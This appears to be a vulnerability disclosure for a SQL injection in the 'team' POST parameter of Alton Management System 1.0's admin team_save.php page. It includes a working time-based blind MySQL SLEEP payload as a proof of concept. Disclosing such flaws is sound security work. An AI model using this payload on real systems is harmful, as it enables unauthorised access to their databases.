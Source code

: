 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

After logging in as a backend user, request the "/admin/team_save.php" page and pass in the "team" parameter. Due to the lax filtering of the "team" parameter on this page, SQL injection vulnerabilities were created.
<img width="1047" alt="image" src="https://github.com/user-attachments/assets/7243e506-86f9-46a4-99e2-fea1df7d2d03">


# Poc

```
Parameter: team (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: team=1' AND (SELECT 3890 FROM (SELECT(SLEEP(5)))fjEz) AND 'ibZM'='ibZM
```

